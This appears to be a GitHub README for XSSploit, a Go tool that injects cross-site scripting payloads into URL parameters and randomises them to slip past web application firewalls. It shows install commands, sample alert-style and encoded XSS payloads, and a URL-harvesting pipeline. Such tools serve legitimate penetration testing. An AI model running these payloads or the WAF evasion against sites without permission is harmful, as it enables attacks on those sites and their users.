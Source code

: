 is an automated tool designed for generating and injecting Cross-Site Scripting (XSS) payloads into URLs.

## Features

- **Parallel Processing**: Scans multiple URLs simultaneously using goroutines.
- **Custom Payloads**: Supports loading custom XSS payloads from a `.txt` file.
- **Randomization**: Randomly inserts XSS payloads into URLs to bypass WAFs.
- **Output Sorting**: Automatically removes duplicate URLs from the results.
- **Verbose Mode**: Optional flag for detailed output.

## Installation

To install the tool using Go, use the following command:

`go install -v github.com/Vulnpire/xssploit@latest`

Or build from the source:

- Clone the repository:

`git clone https://github.com/Vulnpire/XSSploit`

- Build the tool:

`go build -o xssploit main.go`

- Run the tool:

      » xssploit
      And it will generate a random payload:

      <script onblur="confirm(1)" style="width:17px;">

## Arguments

    -url: Scan a single URL
    -file: Path to a .txt file containing URLs to inject the payloads into. Each URL should be on a new line.
    -number: Number of XSS payloads to generate for each URL.
    -randomization: Specify the number of random payloads to select from the file. This helps in bypassing WAFs by injecting different payloads in each request. E.g: 10

## Usage

» xssploit -number 2 -file urls.txt
    
    http://example.com/?param=<script onclick="alert(1)" style="color:12px;">
    http://example.com/?param=<img onerror="console.log("XSS")" style="height:42px;">
    
    
» xssploit -number 1 -url 'http://example.com/?param=' -patterns ./payloads.txt -randomization 1
    
    http://example.com/?param=%3CDIV+STYLE%3D%22background-image%3A%5C0075%5C0072%5C006C%5C0028%27%5C006a%5C0061%5C0076%5C0061%5C0073%5C0063%5C0072%5C0069%5C0070%5C0074%5C003a%5C0061%5C006c%5C0065%5C0072%5C0074%5C0028.1027%5C0058.1053%5C0053%5C0027%5C0029%27%5C0029%22%3E
    http://example.com/?param=%3Cdiv+ondblclick%3D%22alert%28%22XSS%22%29%22+style%3D%22height%3A44px%3B%22%3E

## Pipe it with other tools

» echo "testphp.vulnweb.com" | waybackurls | gf xss | uro > temp

» xssploit -number 1 -file file -patterns ./example.txt -randomization 1 |  [reflect](http://github.com:443/Vulnpire/reflect)

![image](https://github.com/user-attachments/assets/5f5f6b6a-63e8-4d87-bdd3-065f9031804a)

## Disclaimer

I am not responsible from your actions.
